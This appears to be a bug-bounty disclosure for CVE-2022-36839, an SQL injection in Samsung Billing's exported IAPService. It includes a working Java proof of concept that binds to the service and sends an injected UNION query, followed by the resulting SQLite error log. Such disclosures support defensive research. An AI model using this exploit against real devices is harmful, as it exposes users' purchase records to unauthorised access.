

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Samsung Billing</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.billing</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.29</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36839">CVE-2022-36839</a> (SVE-2022-0783)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$510</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found an exported `com.sec.android.app.billing.iap.service.IAPService` service. One of the exposed AIDL interfaces insecurely concatenates data and SQL query leading to SQL injection.

**Proof of Concept**

```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.sec.android.app.billing", "com.sec.android.app.billing.iap.service.IAPService");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.sec.android.app.billing.iap.IAPConnector");
        parcel.writeString("\" union select 1 -- "); // vulnerable param
        parcel.writeString("evil"); // also vulnerable param

        Parcel reply = Parcel.obtain();

        binder.transact(6, parcel, reply, 0);
        reply.readException();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The following log will be printed at runtime:
```
03-28 22:23:23.302 11549 16278 W SQLiteLog: (28) double-quoted string literal: ""
03-28 22:23:23.302 11549 16278 E SQLiteLog: (1) SELECTs to the left and right of UNION do not have the same number of result columns in "SELECT * FROM Inbox WHERE pkgName="" union select 1 -- " AND hashedUserToken=-1544216881 AND itemId IN("wowow") ORDER BY
03-28 22:23:23.302 11549 16278 W System.err: android.database.sqlite.SQLiteException: SELECTs to the left and right of UNION do not have the same number of result columns (code 1 SQLITE_ERROR[1]): , while compiling: SELECT * FROM Inbox WHERE pkgName="" union select 1 -- " AND hashedUserToken=-1544216881 AND itemId IN("evil") ORDER BY purchaseDate DESC
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteConnection.nativePrepareStatement(Native Method)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteConnection.acquirePreparedStatement(SQLiteConnection.java:1478)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteConnection.prepare(SQLiteConnection.java:916)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteSession.prepare(SQLiteSession.java:590)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteProgram.<init>(SQLiteProgram.java:63)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteQuery.<init>(SQLiteQuery.java:37)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteDirectCursorDriver.query(SQLiteDirectCursorDriver.java:46)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteDatabase.rawQueryWithFactory(SQLiteDatabase.java:2088)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteDatabase.queryWithFactory(SQLiteDatabase.java:1935)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteDatabase.query(SQLiteDatabase.java:1806)
03-28 22:23:23.303 11549 16278 W System.err:    at android.database.sqlite.SQLiteDatabase.query(SQLiteDatabase.java:1974)
03-28 22:23:23.303 11549 16278 W System.err:    at com.sec.android.app.billing.iap.e.c.s(Unknown Source:12)
03-28 22:23:23.303 11549 16278 W System.err:    at com.sec.android.app.billing.iap.e.c.f(Unknown Source:173)
03-28 22:23:23.303 11549 16278 W System.err:    at com.sec.android.app.billing.iap.service.IAPService.x(Unknown Source:109)
03-28 22:23:23.303 11549 16278 W System.err:    at com.sec.android.app.billing.iap.service.IAPService$c.a(Unknown Source:10)
03-28 22:23:23.303 11549 16278 W System.err:    at com.sec.android.app.billing.iap.service.IAPService$c.call(Unknown Source:0)
03-28 22:23:23.303 11549 16278 W System.err:    at java.util.concurrent.FutureTask.run(FutureTask.java:266)
03-28 22:23:23.304 11549 16278 W System.err:    at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1167)
03-28 22:23:23.304 11549 16278 W System.err:    at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:641)
03-28 22:23:23.304 11549 16278 W System.err:    at java.lang.Thread.run(Thread.java:920)
03-28 22:23:23.304 11549 16278 I IAPService: ItemInbox cached result
03-28 22:23:23.304 11549 16278 I IAPService: no payment item list
```
